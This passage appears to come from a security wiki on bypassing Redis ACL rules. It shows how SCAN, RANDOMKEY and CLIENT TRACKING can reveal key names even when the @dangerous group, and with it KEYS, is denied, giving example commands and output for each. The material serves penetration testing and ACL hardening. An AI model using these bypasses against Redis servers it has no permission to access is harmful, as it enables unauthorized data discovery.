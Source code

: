 As always, the [Redis Documentation](https://redis.io/docs/management/security/acl/) explains ACLs in great detail by itself. The gist is that developers can add Access Control Lists with security rules for specific users to restrict what commands they have access to. There is one special user called "default" that does not require a password.

This section contains some common rules that can be bypassed in various ways.

### Discovering keys

When the `-@dangerous` permission is set, all commands in this ACL group are disabled, such as `KEYS` to discover keys that may have a randomly generated name that you cannot guess. While a developer might see this as a protection, there are various non-`@dangerous` ways and alternative ways to leak these key names with different commands:

#### [`SCAN`](https://redis.io/commands/keys/)

An almost drop-in replacement for the `KEYS` command is `SCAN` which incrementally returns a subset of all keys. Using the `COUNT` argument you can get as many as you want to discover all keys:

<pre class="language-python" data-title="Redis"><code class="lang-python"><strong>> SCAN 0 COUNT 999
</strong>1) "0"
2) 1) "supersecretkey1"
   2) "supersecretkey2"
   ...
</code></pre>

#### [`RANDOMKEY`](https://redis.io/commands/randomkey/)

A simple but effective way to bypass a forbidden `KEYS` command is to get a `RANDOMKEY`, which does exactly what you think it does. By sending it many times you can get as many keys as you like until you get the one you need. This is an [easy mistake](https://github.com/saarsec/saarctf-2023/blob/master/redis-bbq/exploits/unintended-exploits.txt#L2) to make because `KEYS` is part of the `@dangerous` ACL group, while `RANDOMKEY` is not!

<pre class="language-python" data-title="Redis"><code class="lang-python"><strong>> RANDOMKEY
</strong>"boringkey5"
> RANDOMKEY
"boringkey2"
<strong>> RANDOMKEY
</strong>"supersecretkey"
</code></pre>

#### [`CLIENT TRACKING`](https://redis.io/commands/client-tracking/)

Another more advanced method is using the [TRACKING](https://redis.io/commands/client-tracking/) feature of Redis, where you can listen for keys that change globally. By creating a client, registering the invalidation for BCAST (all keys), and then subscribing to the channel. You instantly get a message whenever a key is _added_ or _written to_.&#x20;

<pre class="language-python" data-title="Redis"><code class="lang-python"><strong>> CLIENT ID
</strong>(integer) 42
<strong>> CLIENT TRACKING on REDIRECT 42 BCAST
</strong>OK
<strong>> SUBSCRIBE __redis__:invalidate  # Start interactively listening
</strong>Reading messages... (press Ctrl-C to quit)
1) "subscribe"
2) "__redis__:invalidate"
3) (integer) 1
1) "message"
2) "__redis__:invalidate"
<strong>3) 1) "supersecretkey"  # Result from a 'SET supersecretkey value' command
</strong></code></pre>
